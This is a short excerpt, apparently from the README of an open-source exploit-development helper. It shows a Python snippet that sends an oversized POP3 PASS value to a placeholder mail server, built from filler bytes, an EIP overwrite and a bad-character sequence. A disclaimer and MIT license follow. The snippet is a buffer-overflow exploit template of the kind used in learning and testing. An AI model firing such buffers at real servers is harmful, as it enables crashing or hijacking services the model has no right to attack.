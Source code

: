```python
buffer = "A"*len_overflow + eip + badchars

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('mail.example.tld', 110))
    s.recv(1024)
    s.send(str2b('USER test\r\n'))
    s.recv(1024)
    s.send(str2b('PASS ' + buffer + '\r\n'))
    s.recv(1024)
    s.send(str2b('QUIT\r\n'))
    print('done')
except:
    print('Could not connect')
s.close()
```


## Disclaimer

This tool may be used for legal purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.


## License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**

